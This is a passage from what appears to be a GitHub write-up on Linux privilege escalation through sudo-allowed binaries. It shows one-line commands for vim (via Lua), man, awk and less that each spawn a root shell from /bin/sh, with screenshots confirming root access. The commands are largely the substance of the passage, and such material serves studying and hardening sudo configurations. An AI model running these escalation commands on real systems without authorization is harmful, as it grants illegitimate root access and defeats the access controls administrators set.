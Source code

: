 *(c) This requires that vim is compiled with Lua support.*
<br />
*```sudo vim -c ':lua os.execute("reset; exec sh")'```*

<br />

The line used in example (a) seems to run successfully:

![image](https://user-images.githubusercontent.com/14150485/172015286-a65b7835-d9d9-4733-8554-845b915f2adb.png)




**man**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

`sudo man man`
<br />
`!/bin/sh`

![image](https://user-images.githubusercontent.com/14150485/172016119-72b9ebb8-61dc-4ef2-b38b-05e7ea6e35a9.png)

Once again, the exploit grants root access to the machine.

![image](https://user-images.githubusercontent.com/14150485/172016189-387d4b96-cde9-4895-825b-e2ab0aa8949f.png)

<br />

**awk**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```sudo awk 'BEGIN {system("/bin/sh")}'```

![image](https://user-images.githubusercontent.com/14150485/172016444-46b9f785-5351-4a2f-9e14-76fbcceadba7.png)

<br />

**less**
--------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```sudo less /etc/profile```
<br />
```!/bin/sh```

![image](https://user-images.githubusercontent.com/14150485/172016574-7fdc2c82-e035-4cca-8e0c-ffde770343f9.png)

The `!` character enables code execution which allows us to run the `/bin/sh` command that grants root access.

![image](https://user-images.githubusercontent.com/14150485/172016591-667f9643-cb9a-4983-ac32-fee3989cd201.png)

<br />
```